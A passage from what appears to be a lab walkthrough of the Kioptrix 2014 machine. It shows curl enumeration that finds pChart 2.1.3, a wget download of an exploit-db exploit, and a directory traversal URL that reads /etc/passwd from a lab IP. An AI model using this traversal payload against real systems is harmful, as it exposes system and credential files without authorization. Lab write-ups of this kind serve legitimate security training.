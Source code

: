 ### Web Enumeration

Nothing was found on the web page, so I decided to enumerate the source page and found a link to another page.

![](/assets/images/kioptrix2014/screenshot-1.png)

```bash
root@kali:~$ curl -s http://192.168.179.168/ | grep -oP 'pC[^"]*'  
pChart2.1.3/index.php
```

There's a Directory Traversal exploit for this version of pechart, so we proceed download the exploit.

```bash
root@kali:~$ wget https://www.exploit-db.com/download/31173
```

## Exploitation
### Directory Traversal

PHP library pChart 2.1.3 (and possibly previous versions) by default contains an examples folder, where the application is vulnerable to Directory Traversal and Cross-Site Scripting (XSS).

We check the proof of concept, as we can see the content of the passwd file is displayed on the screen.

```bash
http://192.168.179.168/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```
